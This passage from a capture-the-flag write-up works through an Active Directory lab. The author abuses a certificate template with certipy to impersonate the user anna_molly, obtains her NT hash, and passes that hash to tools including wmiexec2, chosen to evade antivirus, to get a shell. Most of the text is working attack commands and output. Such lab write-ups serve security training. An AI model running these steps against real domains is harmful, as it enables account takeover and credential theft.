└─$ openssl pkcs12 -in anna_molly_10.pfx -clcerts -nokeys -out anna_molly.pem
Enter Import Password:

```

Then if we import the certificate, we will find that we have successfully become `anna_molly`

```bash
└─$ openssl x509 -in anna_molly.pem -text -noout
Certificate:
    ...
        X509v3 extensions:
            X509v3 Subject Alternative Name: 
                DNS:10.1.1.201, othername: UPN:anna_molly@anomaly.hsm
            X509v3 Subject Key Identifier: 
                6D:C7:72:CE:D6:18:FC:B5:0C:48:DD:3F:DE:D4:BF:B9:91:34:9F:AD
            X509v3 Authority Key Identifier: 
                4B:1C:75:BA:DC:99:49:48:01:50:27:3D:8F:BB:00:A9:B0:3C:D0:41
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=anomaly-ANOMALY-DC-CA-2,CN=Anomaly-DC,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=anomaly,DC=hsm?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=anomaly-ANOMALY-DC-CA-2,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=anomaly,DC=hsm?cACertificate?base?objectClass=certificationAuthority
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft certificate template: 
..d...          0..&+.....7.....F...W..."..._...:+...{...
            X509v3 Extended Key Usage: 
                TLS Web Client Authentication, E-mail Protection, Microsoft Encrypted File System
...

```

However, if we try to retrieve the NT hash, we will find the SID mismatch warning.

```bash
└─$ certipy-ad auth -pfx anna_molly_10.pfx -dc-ip 10.1.1.201
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'anna_molly@anomaly.hsm'
[*]     SAN DNS Host Name: '10.1.1.201'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'anna_molly@anomaly.hsm' (anna_molly@anomaly.hsm)
    [1] DNS Host Name: '10.1.1.201' (10$@1.1.201)
> 0
[*] Using principal: 'anna_molly@anomaly.hsm'
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'anna_molly'
[-] See the wiki for more information
```

We did not specify the SID when we request for the certificate, that is why the SID is blank.

To fix this, we need to first know what the correct SID is. Using the account argument and the read action, we can learn information about the target account, including the SID. 

```bash
└─$ certipy-ad account -u 'computer123$@anomaly.hsm' -p 'Computer123!' -dc-ip 10.1.1.201 -dns 10.1.1.201 -user 'anna_molly' read
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'anna_molly':
    cn                                  : anna_molly
    distinguishedName                   : CN=anna_molly,CN=Users,DC=anomaly,DC=hsm
    name                                : anna_molly
    objectSid                           : S-1-5-21-1496966362-3320961333-4044918980-1105
    sAMAccountName                      : anna_molly
    userAccountControl                  : 66048
    whenCreated                         : 2025-09-21T12:22:31+00:00
    whenChanged                         : 2026-07-19T15:46:18+00:00

```

Knowing it is `S-1-5-21-1496966362-3320961333-4044918980-1105`, we now include it when we request for a certificate.

```bash
└─$ certipy-ad req -u 'computer123$@anomaly.hsm' -p 'Computer123!' -dns 10.1.1.201 -dc-ip 10.1.1.201 -target anomaly.hsm -ca 'anomaly-ANOMALY-DC-CA-2' -template CertAdmin -upn 'anna_molly@anomaly.hsm' -sid='S-1-5-21-1496966362-3320961333-4044918980-1105'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 31
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'anna_molly@anomaly.hsm'
    DNS Host Name: '10.1.1.201'
[*] Certificate object SID is 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Saving certificate and private key to 'anna_molly_10.pfx'
[*] Wrote certificate and private key to 'anna_molly_10.pfx'
```

Extract the newly-generated certificate. This time, we found that the SID is included in the output

```bash
─$ openssl x509 -in anna_molly.pem -text -noout                                                                                                                                                                                           
...
        X509v3 extensions:
            Microsoft NTDS CA Extension: 
                0@.>.
+.....7....0..S-1-5-21-1496966362-3320961333-4044918980-1105
            X509v3 Subject Alternative Name: 
                DNS:10.1.1.201, othername: UPN:anna_molly@anomaly.hsm, URI:tag:microsoft.com,2022-09-14:sid:S-1-5-21-1496966362-3320961333-4044918980-1105
            X509v3 Subject Key Identifier: 
                AA:3B:C5:F8:A3:58:3B:1D:3C:3B:6F:5E:55:3E:D7:12:D3:01:B7:71
            X509v3 Authority Key Identifier: 
                4B:1C:75:BA:DC:99:49:48:01:50:27:3D:8F:BB:00:A9:B0:3C:D0:41
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=anomaly-ANOMALY-DC-CA-2,CN=Anomaly-DC,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=anomaly,DC=hsm?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=anomaly-ANOMALY-DC-CA-2,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=anomaly,DC=hsm?cACertificate?base?objectClass=certificationAuthority
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft certificate template: 
..d...          0..&+.....7.....F...W..."..._...:+...{...
            X509v3 Extended Key Usage: 
                TLS Web Client Authentication, E-mail Protection, Microsoft Encrypted File System

```

Now, we can try to obtain the NT hash again, and it worked

```bash
─$ certipy-ad auth -pfx anna_molly_10.pfx -dc-ip 10.1.1.201                                                                                                                                                                               
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'anna_molly@anomaly.hsm'
[*]     SAN DNS Host Name: '10.1.1.201'
[*]     SAN URL SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*]     Security Extension SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'anna_molly@anomaly.hsm' (anna_molly@anomaly.hsm)
    [1] DNS Host Name: '10.1.1.201' (10$@1.1.201)
> 0
[*] Using principal: 'anna_molly@anomaly.hsm'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'anna_molly.ccache'
[*] Wrote credential cache to 'anna_molly.ccache'
[*] Trying to retrieve NT hash for 'anna_molly'
[*] Got hash for 'anna_molly@anomaly.hsm': aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e
```

Here is the NT Hash.

```bash
aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e
```

## Pass The Hash

The last step of just easy as it is just Pass The Hash, right?

- Evil-WinRM: Failed
    
    ```
    └─$ evil-winrm -i 10.1.1.201 -u anna_molly -H aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e
                                            
    Evil-WinRM shell v3.9
                                            
    Error: Invalid hash format
    
    ```
    
- XFreeRDP3: Failed
    
    ```bash
    ─$ xfreerdp /v:10.1.1.201 /u:anna_molly /pth:'aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e'
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]: Using /pth is insecure
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]: Passing credentials or secrets via command line might expose these in the process list
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]: Consider using one of the following (more secure) alternatives:
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]:   - /args-from: pipe in arguments from stdin, file or file descriptor
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]:   - /from-stdin pass the credential via stdin
    [23:55:59:002] [55030:0000d6f6] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]:   - set environment variable FREERDP_ASKPASS to have a gui tool query for credentials
    [23:55:59:021] [55030:0000d6f8] [WARN][com.freerdp.client.x11] - [load_map_from_xkbfile]:     : keycode: 0x08 -> no RDP scancode found
    [23:55:59:021] [55030:0000d6f8] [WARN][com.freerdp.client.x11] - [load_map_from_xkbfile]: ZEHA: keycode: 0x5d -> no RDP scancode found
    [23:56:00:881] [55030:0000d6f8] [WARN][com.freerdp.crypto] - [verify_cb]: Certificate verification failure 'self-signed certificate (18)' at stack position 0
    [23:56:00:881] [55030:0000d6f8] [WARN][com.freerdp.crypto] - [verify_cb]: CN = Anomaly-DC.anomaly.hsm
    [23:56:01:799] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [krb5glue_get_init_creds]: krb5_init_creds_get (Preauthentication failed [-1765328360])
    [23:56:01:799] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Preauthentication failed [-1765328360])
    [23:56:05:313] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [krb5glue_get_init_creds]: krb5_init_creds_get (Preauthentication failed [-1765328360])
    [23:56:05:313] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Preauthentication failed [-1765328360])
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.winpr.sspi.NTLM] - [ntlm_fetch_ntlm_v2_hash]: Error: Could not find user in SAM database
    [23:56:05:612] [55030:0000d6f8] [WARN][com.winpr.sspi] - [winpr_InitializeSecurityContextA]: InitializeSecurityContextA status SEC_E_NO_CREDENTIALS [0x8009030e]
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.freerdp.core.auth] - [credssp_auth_authenticate]: InitializeSecurityContext status SEC_E_NO_CREDENTIALS [0x8009030e]
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.freerdp.core.rdp] - [rdp_recv_callback_int][0x55c868adc060]: CONNECTION_STATE_NLA - nla_recv_pdu() fail
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.freerdp.core.rdp] - [rdp_recv_callback_int][0x55c868adc060]: CONNECTION_STATE_NLA status STATE_RUN_FAILED [-1]
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.freerdp.core.transport] - [transport_check_fds]: transport_check_fds: transport->ReceiveCallback() - STATE_RUN_FAILED [-1]
    [23:56:05:612] [55030:0000d6f8] [ERROR][com.freerdp.core] - [rdp_client_wait_for_activation]: ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
    [23:56:08:345] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [krb5glue_get_init_creds]: krb5_init_creds_get (Preauthentication failed [-1765328360])
    [23:56:08:345] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Preauthentication failed [-1765328360])
    [23:56:11:860] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [krb5glue_get_init_creds]: krb5_init_creds_get (Preauthentication failed [-1765328360])
    [23:56:11:861] [55030:0000d6f8] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Preauthentication failed [-1765328360])
    
    ```
    
- WMIExec: Failed
    
    ```bash
    └─$ impacket-wmiexec 'anomaly.hsm/anna_molly@anomaly.hsm' -dc-ip 10.1.1.201 -target-ip 10.1.1.201 -hashes 'aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e'
    Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] SMBv3.0 dialect used
    
    ```
    

The above methods failed because, as the scope notes, AV is deployed in the AD environment. To bypass this, we can use [WMIExec2](https://github.com/ice-wzl/wmiexec2), which is stealthier but otherwise identical to WMIExec.

```bash
python wmiexec2.py 'anomaly.hsm/anna_molly@anomaly.hsm' -dc-ip 10.1.1.201 -hashes 'aad3b435b51404eeaad3b435b51404ee:be4bf3131851aee9a424c58e02879f6e'                                                                                  
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[*] Output Filename: \TEMP\vms-5vx4-ajh3-yene-87nx-krw4-50jz-y
[*] **Launching wmiexec2**
[*] Press help for extra shell commands
C:\> whoami
anomaly\anna_molly

```

With this, we can read the root flag :)

```bash
C:\> cd C:\Users\Administrator
C:\Users\Administrator> cd Desktop
C:\Users\Administrator\Desktop> dir
 Volume in drive C is Windows
 Volume Serial Number is 7EC2-1A39

 Directory of C:\Users\Administrator\Desktop

10/04/2025  11:19 PM    <DIR>          .
09/21/2025  12:16 PM    <DIR>          ..
11/14/2024  01:03 AM               470 EC2 Feedback.url
11/14/2024  01:03 AM               501 EC2 Microsoft Windows Guide.url
09/21/2025  12:10 PM             2,355 Microsoft Edge.lnk
10/04/2025  11:19 PM                78 root.txt
               4 File(s)          3,404 bytes
               2 Dir(s)  10,481,123,328 bytes free
```
